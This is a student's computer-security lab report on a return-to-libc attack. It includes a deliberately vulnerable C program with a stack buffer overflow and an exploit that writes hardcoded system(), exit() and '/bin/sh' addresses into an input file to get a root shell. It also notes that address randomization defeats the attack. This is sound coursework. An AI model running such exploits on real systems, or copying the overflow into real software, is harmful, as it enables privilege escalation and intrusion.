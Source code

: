 # Lab12



**Name** 黎诗龙

**SID** 11811407



## Task1

![1](./img/1.png)

I found the the addresses of libc functions are as following, which are shown in the picture.

`system()`  is `0xb7e42da0`.

`exit()` is `0xb7e369d0`.



## Task2

I add the code from the pdf into the code, and the code is like this

```c
/* retlib.c */
/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int bof(FILE *badfile)
{
	char buffer[12];
	/* The following statement has a buffer overflow problem */
	fread(buffer, sizeof(char), 40, badfile);
	return 1;
}
int main(int argc, char **argv)
{
	char* shell = getenv("MYSHELL");
	if (shell)
		printf("shell address is %x\n", (unsigned int)shell);
	FILE *badfile;
	badfile = fopen("badfile", "r");
	bof(badfile);
	printf("Returned Properly\n");
	fclose(badfile);
	return 1;
}
```

![2](./img/1.png)

 I print out the address of the shell command in the `main()`, and it shows that the address of `/bin/sh` is `0xbffffddc`.

## Task3

From the ppt we know that $X=Y+8, Z=Y+4$

To modify the `exploit.c` like this:

```c
/* exploit.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
char buf[40];
FILE *badfile;
badfile = fopen("./badfile", "w");
memset (&buf,0xaa,40);
int Y = 24;
*(long *) &buf[Y+8] = 0xbffffddc ; // "/bin/sh" 
*(long *) &buf[Y] = 0xb7e42da0 ; // system() 
*(long *) &buf[Y+4] = 0xb7e369d0 ; // exit() 
fwrite(buf, sizeof(buf), 1, badfile);
fclose(badfile);
}
```

After compiling it and running it and `retlib`, then I got this:

![3](./img/2.png)

It shows that I got the`root` privilege. 

### Attack variation1

After I cancelled the `exit()`, then the attack is still successful, just a little bit wrong with `exit` command in the bash shell.

![3](./img/3.png)

### Attack variation2

The attack failed and it shows that the address of `/bin/sh` has changed, and this is the reason why the hacking fails.

![5](./img/4.png)

## Task4

The attack has failed naturally, since every time I run the `retlib` it has changed the address of the `/bin/sh` so it is hardly to predict and execute the shell code.

![6](./img/5.png)

And we met the `segmentation fault`, which means the addresses of `system()` and `exit()` have changed.

For $X, Y, Z$, they stay the same because they are the relative offset (address), the randomization has no effect on it.



## Observation

The `return-to-libc` attack can bypass the stack protection and exploit the `root` privilege by buffer overflow attack. 

In the last lab of Computer Security, I learn more about the stack structure of `%ebp` `%eip` `%esp` `%eax` they are quite to be seen in the function call, which is very fundamental to us cs student.

And finally, from the 12 labs Prof. Zhang introduces the interesting and core parts of the classical attacks in the system security, web security, app security. To be honest, they are hard to learn, and sometimes confusing for me, but I am still very interested in them because security always brings surprising and interesting observations. And in this course, I learned a lot.

Thanks for Prof. Zhang, also for TAs.